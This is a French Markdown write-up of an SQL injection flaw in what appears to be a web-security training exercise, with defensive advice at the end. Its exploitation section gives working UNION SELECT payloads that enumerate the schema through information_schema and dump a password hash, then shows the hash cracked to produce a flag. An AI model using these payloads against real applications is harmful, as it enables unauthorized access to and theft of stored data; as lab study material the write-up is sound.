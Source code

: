 # Nom de la faille
Injection SQL

## Définition
Les injections SQL sont une technique utilisée par des utilisateurs malveillants pour manipuler les requêtes SQL envoyées par une application web à sa base de données.

## Risques
Les injections SQL présentent plusieurs risques majeurs pour la sécurité des applications web :

- **Accès non autorisé aux données**
- **Modification des données** 
- **Exécution de commandes**
- **Déni de service** 

## Détection et Exploitation

### Détection
1. **Test des entrées utilisateur** :
   - Ajoutez des payloads spécifiques après le nom d'utilisateur pour voir si cela provoque des erreurs ou modifie le comportement de la page. Exemples de payloads : `'`, `"`, `#`, `;`, `)`.
   - Exemple : `1 OR 1=1` peut afficher une erreur et révéler la requête SQL dans l'URL.

2. **Analyse des erreurs** :
   - Observez les messages d'erreur retournés par l'application. Les erreurs SQL peuvent révéler des informations sur la structure de la base de données et les requêtes utilisées.

### Exploitation

1. **Trouver le nombre de champs** :
   - Utilisez `ORDER BY` pour déterminer le nombre de champs dans la requête. Par exemple, `1 ORDER BY 2` peut renvoyer une erreur si le champ n'existe pas.
   - Une fois le nombre de champs déterminé, utilisez `UNION SELECT` pour extraire des informations. Par exemple, `1 UNION SELECT 1, 2` pour vérifier le nombre de champs.

2. **Extraire des informations**

   - **Obtenir le nom de la base de données** :
     - Utilisez la requête `1 UNION SELECT 1, database()` pour obtenir le nom de la base de données actuelle.
     - Exemple de résultat : `Member_Sql_Injection`.

   - **Obtenir les noms des tables** :
     - Utilisez la requête `1 UNION SELECT 1, TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA = CHAR(77,101,109,98,101,114,95,83,113,108,95,73,110,106,101,99,116,105,111,110)` pour obtenir les noms des tables dans la base de données.
     - Exemple de résultat : `users`.

   - **Obtenir les noms des colonnes** :
     - Utilisez la requête `1 UNION SELECT 1, COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_SCHEMA = CHAR(77,101,109,98,101,114,95,83,113,108,95,73,110,106,101,99,116,105,111,110) AND TABLE_NAME = CHAR(117,115,101,114,115)` pour obtenir les noms des colonnes de la table `users`.
     - Exemple de résultat : `me, user_id, first_name, last_name, town, country, planet, Commentaire, countersign`.

   - **décryptage du flag** :
     - Utilisez la requête `1 UNION SELECT 1, Commentaire FROM users` pour obtenir un indice de décryptage.
       - Exemple de résultat : `Decrypt this password -> then lower all the char. Sh256 on it and it's good !`.
     - Utilisez la requête `1 UNION SELECT 1, countersign FROM users LIMIT 1 OFFSET 4` pour obtenir la contre-signature à décrypter.
       - Exemple de résultat : `5ff9d0165b4f92b14994e5c685cdce28`.
     - Décryptez le mot de passe en utilisant un outil de décryptage MD5, comme [dcode.fr](https://www.dcode.fr/md5-hash).
       - Exemple de résultat : `FortyTwo`.
     - Convertissez le mot de passe en minuscules : `fortytwo`.
     - Appliquez la fonction de hachage SHA-256 au mot de passe en minuscules pour obtenir le résultat final.
       - Exemple de résultat : `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`.

## Comment l'éviter

1. **Utiliser des requêtes préparées**
2. **Valider et échapper les entrées utilisateur**
3. **Utiliser des frameworks sécurisés**

## Source
- https://www.vaadata.com/blog/fr/injections-sql-principes-impacts-exploitations-bonnes-pratiques-securite/
- https://zestedesavoir.com/tutoriels/945/les-injections-sql-le-tutoriel/les-injections-sql-classiques/affichage-denregistrements/
- https://tcm-sec.com/avoid-or-1-equals-1-in-sql-injections/
- https://www.w3schools.com/sql/sql_injection.asp
